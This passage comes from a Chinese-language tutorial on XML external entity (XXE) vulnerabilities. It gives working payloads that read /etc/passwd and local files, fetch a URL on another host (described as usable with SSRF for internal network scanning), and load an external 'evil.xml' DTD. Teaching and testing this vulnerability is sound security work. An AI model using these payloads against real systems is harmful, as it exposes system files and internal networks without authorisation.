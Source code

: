 实例演示：

```text
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
    <!ENTITY content SYSTEM "file:///etc/passwd">]>
<foo>
        <value>&content;</value> 
</foo>
```

## 0x02 漏洞检测

XML实体分为四种：字符实体，命名实体，外部实体，参数实体

**1、命名实体写法：**

```text
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///c://test/1.txt" >]>        
<value>&xxe;</value>

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://otherhost/xxxx.php" >]>        
<value>&xxe;</value>
```

可以用做xxe+ssrf，用于内网扫描

![](../.gitbook/assets/xxe3.png)  
**2、命名实体+外部实体写法：**

```text
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root [
<!ENTITY dtd SYSTEM "http://localhost:88/evil.xml">
]> 
<value>&dtd;</value>
```
